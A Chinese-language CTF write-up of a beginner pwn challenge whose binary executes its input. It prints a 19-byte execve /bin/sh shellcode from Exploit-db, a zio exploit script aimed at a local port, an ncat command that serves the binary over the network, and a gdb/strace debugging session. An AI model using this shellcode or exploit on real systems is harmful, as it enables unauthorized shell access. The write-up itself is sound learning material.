 ```yaml
---
category: CTF
title: Pwn Challenge 0
---
```


## Pwn Challenge 0

> 遇到一个简单的Pwn，记录一下，有一些有意思的问题也放在这里。

### Pwn汇编代码

这个程序很简单，Binary在[这里]({{ site.url }}/resources/Binary/2017-05-06-pwn_1)，直接把它的反汇编贴在下面：

```
.text:0804847D                 push    ebp
.text:0804847E                 mov     ebp, esp
.text:08048480                 and     esp, 0FFFFFFF0h
.text:08048483                 sub     esp, 30h
.text:08048486                 mov     dword ptr [esp+8], 14h
.text:0804848E                 lea     eax, [esp+13h]
.text:08048492                 mov     [esp+4], eax    ; buf
.text:08048496                 mov     dword ptr [esp], 0 ; fd
.text:0804849D                 call    _read
.text:080484A2                 mov     byte ptr [esp+26h], 0
.text:080484A7                 lea     eax, [esp+13h]
.text:080484AB                 mov     [esp], eax      ; s
.text:080484AE                 call    _strlen
.text:080484B3                 mov     [esp+4], eax
.text:080484B7                 mov     dword ptr [esp], offset format ; "%d welcome\n"
.text:080484BE                 call    _printf
.text:080484C3                 lea     eax, [esp+13h]
.text:080484C7                 mov     [esp+2Ch], eax
.text:080484CB                 mov     eax, [esp+2Ch]
.text:080484CF                 call    eax
.text:080484D1                 leave
.text:080484D2                 retn
.text:080484D2 main            endp
```

### 分析

这个题的设定很刻意，现实中恐怕见不到这么明显的漏洞了。大概说一下，就是我们输入的内容会被当做指令执行，然而我们最多只能输入19个字节。输入的东西就直接是shellcode，也不用劫持控制流了（也劫持不了，19个字节不够覆盖到返回地址）。现在就考虑找一段shellcode。

[Exploit-db](https://www.exploit-db.com/exploits/41757/)在这时就显得非常有用了。可以直接找指定长度的shellcode。我找了一个19字节的：

```
; Shellcode : 
char shellcode[] = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
;================================================================================
; Python : 
        shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
;================================================================================
; Assembly language code : 
global _start
        _start:
                push 0bH
                pop eax
                cdq
                push edx
                push "//sh"
                push "/bin"
                mov ebx, esp
                int 80H
;================================================================================
```

然后用zio写一个Exp：

{% highlight python %}
from zio import *

IP = "127.0.0.1"
port = 10000

shellcode = '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n'
conn = zio((IP, port))
#conn = zio("./pwn_1")
conn.write(shellcode)
conn.interact()
{% endhighlight %}

用ncat把漏洞程序挂上：

```
ncat -l 10000 -e ./pwn_1
```

### 问题

**一 | IDA Pro反编译出错**

IDA Pro在遇到这种`call eax`指令时会出错。报

```
Decompilation failure:
80484CF: call analysis failed
```

想想也能想得通，相当于指令是运行时才确定的，它当然不能被静态分析了。

**二 | 打开的shell直接退出**

这个问题发生在手动输入shellcode的时候。如下：

```
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" | ./pwn_1
```

这样直接就退出了。为了查看细节，我先

```
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" > shellcode
```

然后在gdb中

```
r < shellcode
```

单步执行到`int 0x80`后，发现gdb提示

```
process 26793 is executing new program: /bin/dash
```

说明shell成功打开了呀。

我们再用strace追一下：

```
strace ./pwn_1 < shellcode
```

我们看到

```
execve("/bin//sh", [0], [/* 0 vars */]) = 0
```

然而，execve正常执行成功时是不会返回的。这里为什么返回了呢？上面用zio写的脚本在interact()后成功连接上了打开的shell，没有直接退出呀。

在[网上的一篇文章](http://www.purpleroc.com/md/2016-02-25@Thinking-About-Level2.html)的提示下，我gdb不设断点，直接`r < shellcode`可以看到出错提示：

```
[New process 28700]
/bin/dash: not found
[Inferior 2 (process 28700) exited with code 0177]
```

这个出错码0177和上面提到的文章里是一样的。情况很类似，不同的是我是通过`int 0x80`来调用execve，他是通过`system()`来调用。

来看一下在即将执行`int 0x80`时寄存器和栈的情况：

```
EAX: 0xb ('\x0b')
EBX: 0xbffff660 ("/bin//sh")
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbffff6a8 --> 0x0 
ESP: 0xbffff660 ("/bin//sh")

gdb-peda$ x/10x $esp
0xbffff660:     0x6e69622f      0x68732f2f      0x00000000      
```

感觉没问题呀，shellcode也是有效的。这是为什么呢？

后来我们进行了一个测试，编写一个简单地`/bin/zz`，功能是打印`123`，然后把 shellcode 改为运行这个程序，结果成功运行并打印。但是 shell 却一直起不来。

因为用`zio`能够成功，我们找来`zio`的源码看一下：

首先是`zio.write()`：

{% highlight python %}
def write(self, s):
    if not s: return 0
    if self.mode() == SOCKET:
        if self.print_write: stdout(self._print_write(s))
        self.sock.sendall(s)
    return len(s)
{% endhighlight %}

然后是`zio.interact()`：

{% highlight python %}
if self.mode() == SOCKET: # socket
    while self.isalive():
        try:
            r, w, e = self.__select([self.rfd, pty.STDIN_FILENO], [], [])
        except KeyboardInterrupt:
            break
        if self.rfd in r:
            try:
                data = None
                data = self._read(1024)
                if data:
                    if output_filter: data = output_filter(data)
                    stdout(raw_rw and data or self._print_read(data))
                else:       # EOF
                    self.flag_eof = True
                    break
            except EOF:
                self.flag_eof = True
                break
        if pty.STDIN_FILENO in r:
            try:
                data = None
                data = os.read(pty.STDIN_FILENO, 1024)
            except OSError as e:
                # the subprocess may have closed before we get to reading it
                if e.errno != errno.EIO:
                    raise
            if data is not None:
                if input_filter: data = input_filter(data)
                i = input_filter and -1 or data.rfind(escape_character)
                if i != -1: data = data[:i]
                try:
                    while data != b'' and self.isalive():
                        n = self._write(data)
                        data = data[n:]
                    if i != -1:
                        break
                except:         # write error, may be socket.error, Broken pipe
                    break
    return
{% endhighlight%}

上面就是一个标准的 select 模型，如果 socket 可读，就读出并打印到标准输出；如果标准输入可读，就读取标准输入，并发送到 socket。

看来并没有特别之处。不过`zio`类的构造函数倒是很长，改日继续分析吧。

### 附录

**验证shellcode是否有效**

将从Exploit-db上拿到的shellcode汇编代码保存为`shell.asm`，

```
nasm -f elf shell.asm
ld -o shell shell.o
```

执行一下，看看能否打开shell。